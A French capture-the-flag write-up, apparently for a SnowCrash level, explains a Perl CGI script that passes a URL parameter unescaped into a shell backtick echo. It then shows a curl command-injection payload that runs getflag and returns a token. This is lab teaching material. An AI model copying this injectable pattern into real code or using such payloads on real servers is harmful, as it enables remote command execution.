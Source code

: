On trouve dans le dossier home un fichier perl nommé **level04.pl** contenant le code suivant:
<pre><code>#!/usr/bin/perl
# localhost:4747
use CGI qw{param};						// Permet de mettre un parametre
print "Content-type: text/html\n\n";	// Affiche sous forme HTLM
sub x {									// Fonction x
  $y = $_[0];							// Prend le premier parametre
  print `echo $y 2>&1`;					// Echo le parametre
}
x(param("x"));							// Appelle la fonction</code></pre>


On comprend donc que le perl va s'executer si l'on va sur la page IP:4747,
de plus il prend un parametre (grace a l'url) x, qu'il va echo.

<pre><code>> curl IP:4747?x=test
test
</code></pre>

On se rend compte qu'il n'y a pas de verifaction spécial quant au paramètre, nous essayons donc d'injecter une commande:

<pre><code>> curl IP:4747?x=\`getflag\`
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
</code></pre>
> On echappe les **`** pour éviter de mettre le retour de la commande **getflag**, ce que l'on cherche c'est que la commande s'execute au moment du echo